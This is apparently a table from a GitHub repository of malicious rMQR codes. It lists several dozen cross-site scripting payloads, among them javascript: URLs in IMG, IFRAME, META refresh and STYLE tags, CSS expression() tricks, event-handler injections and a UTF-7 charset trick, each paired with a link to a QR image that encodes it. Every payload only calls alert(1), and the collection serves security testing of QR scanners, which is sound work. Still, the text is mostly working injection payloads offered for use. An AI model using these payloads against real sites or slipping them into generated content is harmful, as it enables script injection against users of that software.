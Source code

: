 | `<IMG SRC="javascript:javascript:alert(1)"` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/405.png) |
| `<iframe src=%(scriptlet)s <` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/406.png) |
| `<INPUT TYPE="IMAGE" SRC="javascript:javascript:alert(1);">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/407.png) |
| `<IMG DYNSRC="javascript:javascript:alert(1)">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/408.png) |
| `<IMG LOWSRC="javascript:javascript:alert(1)">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/409.png) |
| `<BGSOUND SRC="javascript:javascript:alert(1);">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/410.png) |
| `<LINK REL="stylesheet" HREF="javascript:javascript:alert(1);">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/413.png) |
| `<META HTTP-EQUIV="Link" Content="<%(css)s>; REL=stylesheet">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/415.png) |
| `<STYLE>li {list-style-image: url("javascript:javascript:alert(1)");}</STYLE><UL><LI>XSS` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/417.png) |
| `<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:javascript:alert(1);">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/418.png) |
| `<META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:javascript:alert(1);">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/419.png) |
| `<IFRAME SRC="javascript:javascript:alert(1);"></IFRAME>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/420.png) |
| `<TABLE BACKGROUND="javascript:javascript:alert(1)">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/421.png) |
| `<TABLE><TD BACKGROUND="javascript:javascript:alert(1)">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/422.png) |
| `<DIV STYLE="background-image: url(javascript:javascript:alert(1))">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/423.png) |
| `<DIV STYLE="width:expression(javascript:alert(1));">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/424.png) |
| `<IMG STYLE="xss:expr/*XSS*/ession(javascript:alert(1))">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/425.png) |
| `<XSS STYLE="xss:expression(javascript:alert(1))">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/426.png) |
| `<STYLE TYPE="text/javascript">javascript:alert(1);</STYLE>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/427.png) |
| `<STYLE>.XSS{background-image:url("javascript:javascript:alert(1)");}</STYLE><A CLASS=XSS></A>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/428.png) |
| `<STYLE type="text/css">BODY{background:url("javascript:javascript:alert(1)")}</STYLE>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/429.png) |
| `<!--[if gte IE 4]><SCRIPT>javascript:alert(1);</SCRIPT><![endif]-->` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/430.png) |
| `<BASE HREF="javascript:javascript:alert(1);//">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/431.png) |
| `<OBJECT TYPE="text/x-scriptlet" DATA="%(scriptlet)s"></OBJECT>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/432.png) |
| `<SCRIPT SRC="%(jpg)s"></SCRIPT>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/433.png) |
| `<form id="test" /><button form="test" formaction="javascript:javascript:alert(1)">X` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/434.png) |
| `<P STYLE="behavior:url('#default#time2')" end="0" onEnd="javascript:alert(1)">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/435.png) |
| `<STYLE>a{background:url('s1' 's2)}@import javascript:javascript:alert(1);');}</STYLE>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/437.png) |
| `<meta charset= "x-imap4-modified-utf7"&&>&&<script&&>javascript:alert(1)&&;&&<&&/script&&>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/438.png) |
| `<SCRIPT onreadystatechange=javascript:javascript:alert(1);></SCRIPT>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/439.png) |
| `<style onreadystatechange=javascript:javascript:alert(1);></style>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/440.png) |
| `<embed code=javascript:javascript:alert(1);></embed>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/442.png) |
| `<embed src=%(jscript)s></embed>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/443.png) |
| `<frameset onload=javascript:javascript:alert(1)></frameset>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/444.png) |
| `<object onerror=javascript:javascript:alert(1)>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/445.png) |
| `<embed type="image" src=%(scriptlet)s></embed>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/446.png) |